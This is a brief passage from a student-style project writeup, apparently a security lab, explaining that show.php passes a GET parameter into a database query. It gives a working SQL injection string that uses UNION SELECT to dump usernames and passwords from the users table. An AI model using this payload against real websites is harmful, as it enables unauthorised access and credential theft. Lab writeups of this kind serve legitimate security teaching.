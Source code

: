 # Project Writeup (Part 2)

1. show.php interprets user input from the GET url to display a post based upon a given ID. I can exploit this to force it to display a list of usernames and passwords from the database using this string:

 ' UNION DISTINCT SELECT null, pass as username, username, null, null FROM users WHERE 1=1 OR username='
